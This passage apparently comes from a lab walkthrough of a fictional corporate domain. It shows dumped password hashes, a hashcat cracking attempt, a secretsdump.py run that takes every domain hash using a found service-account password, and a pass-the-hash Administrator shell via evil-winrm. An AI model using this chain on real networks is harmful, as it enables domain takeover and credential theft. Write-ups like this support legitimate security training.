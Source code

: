 So here we have the hash for local Administrator :

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::
```

And a reference to the domain Administrator account :

```text
CORP.THERESERVE.LOC/Administrator:$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca
```

This is a DCC2 hash: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials

We can give a try to crack it with :

```shell
hashcat -m2100 '$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

But no luck.

We also have a reference to svcbackups:

```text
svcBackups@corp.thereserve.loc:q9nzssaFtGHdqUV3Qv6G
```

This do not seem to be a hash, but rather a plain password !!

Let's use this account enumerate 

```shell
proxychains secretsdump.py 'corp.thereserve.loc/svcbackups:q9nzssaFtGHdqUV3Qv6G'@10.200.118.102 -outputfile corpdc.hashes
```

And we get the NTLM hashes of all accounts on the AD, including the domain Administrator :

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::
```

Domain Administrator cannot use RDP, but we can still use WinRM to get a shell using the hash:

```shell
proxychains evil-winrm -i 10.200.118.102 -u Administrator -H d3d4edcc015856e386074795aea86b3e
```

```
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
